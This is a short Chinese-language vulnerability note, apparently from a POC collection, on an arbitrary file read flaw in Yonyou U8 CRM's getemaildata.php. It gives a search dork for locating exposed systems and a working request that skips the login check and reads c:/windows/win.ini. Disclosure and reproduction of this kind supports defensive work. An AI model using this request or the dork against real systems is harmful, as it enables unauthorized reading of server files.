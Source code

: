 # 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件读取漏洞

## 漏洞描述

用友 U8 CRM客户关系管理系统 getemaildata.php 存在任意文件读取漏洞，攻击者通过漏洞可以获取到服务器中的敏感文件

## 漏洞影响

<a-checkbox checked>用友 U8 CRM客户关系管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="用友U8CRM"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1680525831431-a143a41a-f89e-4132-913f-0f0e8858628c-20230812123820985.png)

验证POC

```plain
/ajax/getemaildata.php?DontCheckLogin=1&filePath=c:/windows/win.ini
```

![img](../../../.vuepress/public/img/1691568204155-1b46ce98-e317-4318-9fb3-f2bcad3b0988.png)